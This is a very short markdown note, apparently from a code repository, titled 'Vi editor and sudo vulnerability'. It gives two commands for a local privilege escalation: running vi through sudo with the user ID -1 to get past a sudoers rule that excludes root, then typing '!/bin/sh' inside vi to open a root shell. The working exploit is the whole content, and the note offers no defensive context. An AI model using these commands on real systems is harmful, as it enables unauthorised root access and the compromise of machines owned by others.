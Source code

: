 # Vi editor and sudo vulnerability

- Type:
````shell
sudo -u#-1 /usr/bin/vi file
````
- Then type on the vi finder menu: `!/bin/sh`

